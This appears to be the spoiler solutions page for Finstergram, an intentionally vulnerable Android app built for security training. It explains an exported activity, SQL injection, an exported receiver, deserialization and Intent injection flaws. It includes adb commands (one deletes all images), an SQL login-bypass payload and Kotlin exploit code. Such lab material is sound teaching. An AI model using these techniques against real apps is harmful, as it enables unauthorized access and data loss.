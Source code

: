 <h2>Solutions</h2>

Spoiler Alert! Here you can find a description of Finstergram's security vulnerabilities and how
they can be exploited.

## Exported ImageListActivity

The "android:exported" property in the AndroidManifest section of an Activity determines whether
it can be started by other apps. In some cases this is necessary, for example when you want users
to be able to share a file from another app with your application.
Finstergram's ImageListActivity however, should not be exported as this allows an attacker to launch
it directly (via another app or adb), skipping over the LoginActivity:

> adb shell am start -n com.netlight.sec.finstergram/com.netlight.sec.finstergram.ui.list.ImageListActivity

## SQL Injection in DatabaseHelper

In the "authenticateUser" function of DatabaseHelper, the entered name and password are directly
built into the query string. As a result, the query can be changed by providing an especially forged
name or password. As an attacker we only need to produce a query which returns at least one row so
that the "authenticateUser" will return true in the end. This can be achieved, e.g., by entering
"user" as the name and "' OR 1==1 --" as the password.

The resulting query will be:
> SELECT * FROM users WHERE username='user' AND password='' OR 1 == 1 --''

The modified query will simply return all rows. Note that "--" starts a comment in SQL, as a result
character after this sequence will be ignored.

## Exported BroadcastReceiver, sendBroadcast with implicit Intent 

ImageStoreService registers a BroadcastReceiver at runtime. As the "registerReceiver" call does not
specify whether the BroadcastReceiver is exported, it defaults to exported. As a result, any app can
send messages to it and, for example, trigger the background action to delete all images:

> adb shell am broadcast -a INTENT_ACTION_FINSTERGRAM_IMG_SERVICE --es INTENT_EXTRA_COMMAND DELETE_ALL

On top of that, the ImageStore sends messages to the BroadcastReceiver with an implicit Intent,
meaning it only specifies an Intent action, not exactly which app component should receive the
Intent. A malicious app could simply register a BroadcastReceiver for the same Intent action and
would be notified about which images are imported into Finstergram's gallery.

## Deserialization vulnerability in SharedImageActivity

The "MetadataOptions" functionality which allows a calling app of SharedImageActivity to pass one of
a set of options is vulnerable as it allows an attacker to deserialize an object of an arbitrary
class i.e. an attacker can instantiate an object of an arbitrary class. Whether such a vulnerability
can be exploited depends on which classes are available on the victim app's classpath and what they
do on initialization.
In the case of Finstergram, UserSettings objects will set themselves as the
current UserSettings instance after they are initialized. An attacker can exploit this by making
Finstergram deserialize a UserSettings object with "requirePassword" set to false.

Example exploit code which would run in an attacker app:
  ```
  private fun exploitDeserializationVulnerability {
    val finstergramPackage = "com.netlight.sec.finstergram"
    val targetActivityName = "${finstergramPackage}.ui.shared.SharedImageActivity"
    val irrelevantFakeUri =
      Uri.parse("content://com.netlight.sec.finstergram.imageprovider/images/image.jpg'
    val optionType = "com.netlight.sec.finstergram.data.UserSettings"
    val option = "{\"requirePassword\": false, \"darkMode\": true}"
    val intent = Intent().apply {
      putExtra(Intent.EXTRA_STREAM, irrelevantFakeUri)
      putExtra("INTENT_EXTRA_IMG_METADATA_OPTION_TYPE", optionType)
      putExtra("INTENT_EXTRA_IMG_METADATA_OPTION", option)
      setClassName(finstergramPackage, targetActivityName)
    }
    startActivityForResult(intent, 0)
  }
  ```

## Intent injection in SharedImageActivity

An Intent injection vulnerability is a situation where a malicious app can trick another app into
sending a forged Intent. Among other reasons, this is dangerous as Intents are used to grant access
to content stored in ContentProviders: when an app wants to grant access to another app, it sends
an Intent with a Uri pointing to the content which should be shared and applies specific flags, for
instance Intent.FLAG_GRANT_READ_URI_PERMISSION to grant read access.
Finstergram's SharedImageActivity returns incoming Intents to calling apps, after processing them in
onResume, by calling setResult(..., intent) which is a common anti-pattern. The Android OS will
interpret this as Finstergram sending the Intent to the calling app, leading to an Intent injection
vulnerability.

To exploit this, an attacker prepares an Intent with a Uri pointing to an image within Finstergram
and the Intent.FLAG_GRANT_READ_URI_PERMISSION flag set. This Intent is then sent to 
SharedImageActivity, which will duly send it back with setResult. In onActivityResult, the attacker
app can then use the returned Intent to access the secret image.
  ```
  private fun exploitIntentInjection() {
    val finstergramPackage = "com.netlight.sec.finstergram"
    val targetActivityName = "${finstergramPackage}.ui.shared.SharedImageActivity"
    val targetImage = "content://com.netlight.sec.finstergram.imageprovider/images/image.jpg"
    val intent = Intent().apply {
      data = Uri.parse(targetImage)
      flags = Intent.FLAG_GRANT_READ_URI_PERMISSION
      setClassName(finstergramPackage, targetActivityName)
    }
    startActivityForResult(intent, 0)
  }

  override fun onActivityResult(requestCode: Int, resultCode: Int, data: Intent?) {
    super.onActivityResult(requestCode, resultCode, data)
    contentResolver.openInputStream(data!!).use { inputStream
      // image can be now read from inputStream!
    }
  }
  ```